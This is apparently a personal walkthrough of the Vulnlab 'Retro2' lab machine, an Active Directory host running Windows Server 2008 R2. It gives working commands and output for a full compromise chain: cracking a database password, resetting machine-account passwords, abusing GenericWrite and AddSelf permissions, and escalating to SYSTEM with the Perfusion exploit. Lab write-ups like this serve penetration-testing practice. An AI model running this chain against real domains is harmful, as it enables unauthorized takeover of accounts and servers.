

| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Retro        | Easy       | 17/12/2024   | 23/12/2024     |
*Vulnlab.com* 

---

**Learning Points:**  

- Learned to enumerate usernames in a domain controller using `impacket-lookupsid`.  
- Used **bloodhound-python** and set the nameserver as the Domain Controller.  
- Utilized the [rpcchangepwd.py](https://raw.githubusercontent.com/api0cradle/impacket/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6/examples/rpcchangepwd.py) script when the **kpasswd** tool failed to change a user's password in the **"PRO-WINDOWS 2000 COMPATIBLE ACCESS"** group.  
- Learned to use **BloodHound** to view **reachable high-value targets** from an owned principal.  
- Exploited **BloodHound graphs** by:  
  - Abusing **Generic Write** access.  
  - Abusing **AddSelf** to add a user to a target group using the `net rpc group addmem` command.  
- Compiled a `.sln` file to an `.exe` using **Visual Studio 2022**.  
- Exploited **Windows Server 2008 R2** using a privilege escalation exploit known as [Perfusion](https://github.com/itm4n/Perfusion).  


---

Attack Path : 

1. Enumerate SMB shares using `smbclient` to list shared folders and locate the `staff.accdb` file in the `public` share.  
2. Download the `staff.accdb` file and extract its hash using `office2john`.  
3. Crack the hash with `John the Ripper` to retrieve valid credentials.  
4. Verify the cracked credentials using `crackmapexec` to confirm authentication.  
5. Enumerate the domain structure and permissions with `bloodhound-python` by setting the correct nameserver.  
6. Analyze the BloodHound output to identify the `PRO-WINDOWS 2000 COMPATIBLE ACCESS` group and machine accounts ending with `$`.  
7. Use `rpcchangepwd.py` to reset the password for the `FS01$` machine account.  
8. Verify the password change with `crackmapexec` to ensure successful authentication as `FS01$`.  
9. Restart BloodHound enumeration using the `FS01$` machine account and identify an exploitable `GenericWrite` permission on the `ADMWS01` machine.  
10. Abuse the `GenericWrite` permission by adding the `ADMWS01$` machine account to the `SERVICES` group using Samba's `net` tool.  
11. Confirm the addition to the `SERVICES` group by verifying group membership with `net rpc group members`.  
12. Connect to the target machine via RDP using `xfreerdp` with the `/tls-seclevel:0` flag to bypass Windows Server 2008 security restrictions.  
13. Discover a privilege escalation vulnerability in Windows Server 2008 R2 and download the **Perfusion** exploit from GitHub.  
14. Compile the **Perfusion** exploit in release mode and transfer the binary to the target machine.  
15. Execute the exploit to escalate privileges and gain a SYSTEM shell.  
16. Access the root directory and retrieve the flag.  

---

**Activity Log:**  

- Performed an Nmap scan to check for open ports.  
- Ran `smbclient` to view available shares.  
- Used `crackmapexec` and discovered that the server runs `Windows Server 2008`.  
- Attempted an ASREPRoast attack using the available credentials but failed.  
- Began enumerating the SMB shares.  
- Found the `staff.accdb` file in the `public` share and downloaded it to Falcon.  
- Opened the `staff.accdb` file and found it password-protected.  
- Used `office2john` to convert it into a crackable hash and cracked it using `JtR`.  
- Accessed the database and retrieved a credential.  
- Verified the credentials using `crackmapexec`—successfully authenticated.  
- Attempted to log in using `Evil-WinRM` but failed with the credentials.  
- Running `Dnschef` with `bloodhound-python` didn't work.  
- Ran `bloodhound-python` again, this time setting the nameserver to the machine's IP—this worked.  
- Enumerated possible paths from the BloodHound graph but found nothing interesting from the `ldapreader` user account's perspective.  
- Re-enumerated the users and found the `PRO-WINDOWS 2000 COMPATIBLE ACCESS` group from the BloodHound output, along with four users whose names ended with `$`.  
- Tried using the `kpasswd` tool to reset the passwords of the four users but failed.  
- Researched and discovered the `rpcchangepwd.py` tool could also be used to perform this action.  
- Attempted password changes for three users but failed; however, successfully changed the password for the `FS01$` user.  
- Verified the password change using `crackmapexec`—success confirmed.  
- Restarted BloodHound enumeration using the `FS01$` user perspective and found an exploitable path for gaining a foothold.  
- Abused the `GenericWrite` permission on the `ADMWS01` machine as a domain user (`FS01$`).  
- Tried adding a computer as suggested by BloodHound (*Resource-Based Constrained Delegation*), but failed.  
- Referenced this [article](https://hadess.io/pwning-the-domain-dacl-abuse/#:~:text=GenericAll%2FGenericWrite%20on%20Computer,-If%20we%20have&text=since%20we%20can%20add%20a,we%20can%20perform%20RBCD%20attack.&text=attacker%20with%20this%20permission%20can,potentially%20taking%20over%20the%20machine) and attempted to add a computer to the domain using domain credentials—failed again.  
- After reading a write-up, changed the password of the `ADMWS01$` user using the `net rpc password` command.  
- Verified the password change using `crackmapexec`.  
- Started exploiting the AddSelf permission.  
- Used Samba's `net` tool to add the `ADMWS01$` user to the `SERVICES` group.  
- Verified the addition using `net rpc group members`.  
- Attempted RDP login but failed.  
- Learned that `/tls-seclevel:0` needs to be added to `xfreerdp` due to Windows 2008 limitations.  
- Found that **Windows Server 2008 R2** is vulnerable to a privilege escalation exploit called [Perfusion](https://github.com/itm4n/Perfusion).  
- Compiled and transferred the executable via the RDP connection but failed to execute it since it was built in Visual Studio 2022's debug mode.  
- Recompiled the binary in release mode, transferred it, and successfully executed it. 
- Gained a system shell and obtained the root flag.  

---

### Enumeration 

```
# Nmap 7.94SVN scan initiated Tue Dec 17 20:42:32 2024 as: nmap -sC -sV -oA nmap_default -Pn 10.10.101.57
Nmap scan report for retro2.vl (10.10.101.57)
Host is up (0.19s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
88/tcp    open  tcpwrapped
135/tcp   open  msrpc      Microsoft Windows RPC
389/tcp   open  ldap       Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
464/tcp   open  tcpwrapped
593/tcp   open  ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap       Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49155/tcp open  msrpc      Microsoft Windows RPC
49156/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49157/tcp open  msrpc      Microsoft Windows RPC
49158/tcp open  msrpc      Microsoft Windows RPC
Service Info: Host: BLN01; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 17 20:45:16 2024 -- 1 IP address (1 host up) scanned in 164.09 seconds
```

We found the default shares using **`smbclient`**.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ smbclient -L //10.10.101.57     
Password for [WORKGROUP\destiny]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.101.57 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

 We ran **`crackmapexec`** and discovered that the server is running Windows Server 2008.

```
┌──(destiny㉿falcon)-[~]
└─$ crackmapexec smb 10.10.101.57         
SMB         10.10.101.57    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
```

We ran a SID brute-force attack using **`lookupsid.py`** and successfully retrieved the usernames on the machine.


We used the following command to save the output to a text file for later use:

```
impacket-lookupsid anonymous@retro2.vl -no-pass | awk -F'\\\\| ' '/SidTypeUser/ {print $3}' | tee usernames.txt
```


We performed an ASREPRoast attack but did not succeed.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ impacket-GetNPUsers retro2.vl/ -dc-ip 10.10.101.57 -no-pass -usersfile usernames.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:163: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User BLN01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Julie.Martin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Clare.Smith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Laura.Davies doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Rhys.Richards doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Leah.Robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Michelle.Bird doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kayleigh.Stephenson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Charles.Singh doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Sam.Humphreys doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Margaret.Austin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Caroline.James doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Lynda.Giles doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Emily.Price doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Lynne.Dennis doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Alexandra.Black doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Alex.Scott doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Mandy.Davies doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Marilyn.Whitehouse doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Lindsey.Harrison doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Sally.Davey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ADMWS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User inventory doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ldapreader doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS02$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We revisited the SMB shares and noticed a share named `Public` that was available (I missed it the first time because I wasn't checking the output thoroughly, but I found it in a write-up).

Inside the `Public` share, we found a `staff.accdb` file in the DB folder and downloaded it to Falcon.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ smbclient //retro2.vl/public
Password for [WORKGROUP\destiny]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 17 20:00:37 2024
  ..                                  D        0  Sat Aug 17 20:00:37 2024
  DB                                  D        0  Sat Aug 17 17:37:06 2024
  Temp                                D        0  Sat Aug 17 17:28:05 2024

                6290943 blocks of size 4096. 1254180 blocks available
smb: \> cd DB
smb: \DB\> ls
  .                                   D        0  Sat Aug 17 17:37:06 2024
  ..                                  D        0  Sat Aug 17 17:37:06 2024
  staff.accdb                         A   876544  Sat Aug 17 20:00:19 2024

                6290943 blocks of size 4096. 1254179 blocks available
smb: \DB\> mget *
Get file staff.accdb? y
getting file \DB\staff.accdb of size 876544 as staff.accdb (397.8 KiloBytes/sec) (average 397.8 KiloBytes/sec)
smb: \DB\> cd ..
smb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Aug 17 17:28:05 2024
  ..                                  D        0  Sat Aug 17 17:28:05 2024

                6290943 blocks of size 4096. 1254179 blocks available
smb: \temp\> 
```

We were able to identify that it is an MS Access database.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ file staff.accdb  
staff.accdb: Microsoft Access Database
```

We weren't able to access it using LibreOffice, so we tried MS Access and discovered that it is password-protected.


We used **`office2john`** to convert the file into a crackable hash and successfully cracked it using **`JTR`**.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ office2john staff.accdb > staff_hashes.txt

┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ john staff_hashes.txt --format=office --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 128/128 ASIMD 4x / SHA512 128/128 ASIMD 2x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
class08          (staff.accdb)     
1g 0:00:00:44 DONE (2024-12-17 21:36) 0.02255g/s 103.9p/s 103.9c/s 103.9C/s diamante..class08
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```
staff.accdb:class08
```

We couldn't find any entries in the database.


While checking the **`Staff`** module, we found some credentials.


```
strLDAP = "LDAP://OU=staff,DC=retro2,DC=vl"
strUser = "retro2\ldapreader"
strPassword = "ppYaVcB5R"
```

We were able to confirm the credentials using **`crackmapexec`**.


We tried to log in using **Evil-WinRM** but failed.


We were not able to RDP either.


Running **Dnschef** and **bloodhound-python** didn't work.



We ran **bloodhound-python** again with the nameserver set to the machine's IP and were able to obtain the mapping.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2/bloodhound]
└─$ sudo bloodhound-python -u 'ldapreader' -p 'ppYaVcB5R' -d retro2.vl -ns 10.10.101.57 -c All

INFO: Found AD domain: retro2.vl
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (bln01.retro2.vl:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Found 27 users
INFO: Found 43 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: BLN01.retro2.vl
INFO: Done in 00M 44S


┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2/bloodhound]
└─$ ls
20241217225801_computers.json  20241217225801_containers.json  20241217225801_domains.json  20241217225801_gpos.json  20241217225801_groups.json  20241217225801_ous.json  20241217225801_users.json
```

#### Enumerating possible paths from the bloodhound graph


We could not find anything interesting. After enumerating the users again, we noticed the `PRO-WINDOWS 2000 COMPATIBLE ACCESS` in the **BloodHound** output, along with four users that had a `$` at the end of their names.

```
BLN01$
ADMWS01$
FS01$
FS02$
```

To use this account, we need to change the password of the user **`BANKING$`** using the **`kpasswd`** tool. Before using it, we must edit the **`/etc/krb.conf`** file by adding the following configuration. Refer to: [[Retro - Vulnlab.com]].

```
[libdefaults]
    default_realm = RETRO2.VL
    dns_lookup_realm = false
    ticket_lifetime = 24h
    renew_lifetime = 7d
    rdns = false
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true

[realms]
    RETRO2.VL = {
        kdc = BLN01.RETRO2.VL
        admin_server = BLN01.RETRO2.VL
    }
```

*We got **`BLN01`** as the hostname from the Nmap output for the IP we obtained.*

We got the below error :

```
kpasswd: Cannot contact any KDC for requested realm getting initial ticket
```

We tried troubleshooting but failed. After researching, we found that we could use the [rpcchangepwd.py](https://raw.githubusercontent.com/api0cradle/impacket/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6/examples/rpcchangepwd.py) script from Impacket to achieve the same result. We downloaded the tool, ran the following command, and were able to change the password. We attempted to change the passwords for all four users, and the **`FS01$`** user's password was successfully changed.

```
┌──(destiny㉿falcon)-[~/tools-backup]
└─$ python3 rpcchangepwd.py retro2.vl/fs01\$:fs01@10.10.69.202 -newpass P@ssw0rd 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Password was changed successfully.
```

We verified the password change using **crackmapexec** and it was successful.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ crackmapexec smb retro2.vl -u FS01$ -p P@ssw0rd
SMB         retro2.vl       445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         retro2.vl       445    BLN01            [+] retro2.vl\FS01$:P@ssw0rd 
```

We started the **BloodHound** enumeration again from the perspective of the user **`FS01$`** and discovered an interesting path that we could abuse to gain a foothold.


```
FS01$:P@ssw0rd
```

##### GenericWrite Abuse

**Resource-Based Constrained Delegation**
>First, if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added with Impacket's addcomputer.py example script: ( *Source : bloodhound* )

```
addcomputer.py -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host $DomainController -domain-netbios $DOMAIN 'domain/user:password'
```

That method didn't work :


Read this [Article](https://hadess.io/pwning-the-domain-dacl-abuse/#:~:text=GenericAll%2FGenericWrite%20on%20Computer,-If%20we%20have&text=since%20we%20can%20add%20a,we%20can%20perform%20RBCD%20attack.&text=attacker%20with%20this%20permission%20can,potentially%20taking%20over%20the%20machine) and tried to `Add a computer to the domain via domain credentials` :

```
┌──(destiny㉿falcon)-[~/tools-backup]
└─$ impacket-addcomputer retro2.vl/FS02$ -dc-ip 10.10.69.202 -computer-name 'ADMWS01$' -computer-pass 'P@ssw0rd'    
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[-] SMB SessionError: code: 0xc000006d - STATUS_LOGON_FAILURE - The attempted logon is invalid. This is either due to a bad username or authentication information.
SMB SessionError: code: 0xc000000d - STATUS_INVALID_PARAMETER - An invalid parameter was passed to a service or function.
```

That attempt also failed. After reading a write-up, we got a hint to change the password of the existing user instead of creating a new user account.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ net rpc password 'ADMWS01$' Passw0rd1 -U retro2.vl/'fs01$'%P@ssw0rd -S bln01.retro2.vl
```

*Verifying that the changed password is working :*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ crackmapexec smb retro2.vl -u 'ADMWS01$' -p 'Passw0rd1'
SMB         retro2.vl       445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         retro2.vl       445    BLN01            [+] retro2.vl\ADMWS01$:Passw0rd1
```

##### Addself Abuse

*Bloodhound :*
> The computer ADMWS01.RETRO2.VL has the ability to add itself, to the group SERVICES@RETRO2.VL. Because of security group delegation, the members of a security group have the same privileges as that group.

> By adding itself to the group, ADMWS01.RETRO2.VL will gain the same privileges that SERVICES@RETRO2.VL already has.


Use samba's net tool to add the user to the target group. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line:

```
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

```
┌──(destiny㉿falcon)-[~/tools-backup]
└─$ net rpc group addmem "Services" "ldapreader" -U "retro2.vl"/"ADMWS01$"%"Passw0rd1" -S "BLN01.RETRO2.VL" 
```

Using **`net rpc group members`**, we were able to verify that our user was successfully added.

```
┌──(destiny㉿falcon)-[~/tools-backup]
└─$ net rpc group members "SERVICES" -U retro2.vl/"ADMWS01$" -S BLN01.retro2.vl
Password for [RETRO2.VL\ADMWS01$]:
RETRO2\inventory
RETRO2\ldapreader
```

Got the following error when attempting RDP:

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ xfreerdp /v:10.10.69.202 /u:ldapreader /p:ppYaVcB5R
[18:15:37:643] [53594:53595] [ERROR][com.freerdp.core] - transport_connect_tls:freerdp_set_last_error_ex ERRCONNECT_TLS_CONNECT_FAILED [0x00020008]
```

Used the following command and was able to RDP into the machine:

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ xfreerdp /v:10.10.69.202 /u:ldapreader /p:ppYaVcB5R /tls-seclevel:0
```

And was able to obtain the user flag as well.


### Privilege Escalation

While googling, we found that **Windows Server 2008R2** is vulnerable to a privilege escalation exploit known as [Perfusion](https://github.com/itm4n/Perfusion).

>On **Windows 7**, **Windows Server 2008R2**, **Windows 8**, and **Windows Server 2012**, the registry key of the `RpcEptMapper` and `DnsCache` (7/2008R2 only) services is configured with weak permissions. Any local user can create a `Performance` subkey and then leverage the _**Windows Performance Counters**_ to load an arbitrary DLL in the context of the WMI service as `NT AUTHORITY\SYSTEM` (hence the tool's name).

Used the following command to RDP into the machine and create a drive to share files from Falcon to the box:

```
root@falcon:~/tools-backup# xfreerdp /v:10.10.109.203 /u:ldapreader /p:ppYaVcB5R /tls-seclevel:0 +drives /drive:backup,/root/tools-backup /dynamic-resolution
```

We also compiled the Perfusion binary using Visual Studio 2022 in the Windows VM. After executing the `.exe` file, we encountered the following error:


*Chatgpt :*

>*The error "VCRUNTIME140D.dll is missing" typically occurs when an application requires the debug version of the Microsoft Visual C++ Redistributable libraries, specifically the Visual Studio Debug Runtime Libraries. These debug libraries are not included in the standard redistributable package and are only available with Visual Studio installations.*

Compiled the binary again in release mode, transferred it to the box, and executed it according to the instructions.


After executing the exploit we got a system shell and was able to get the root flag

---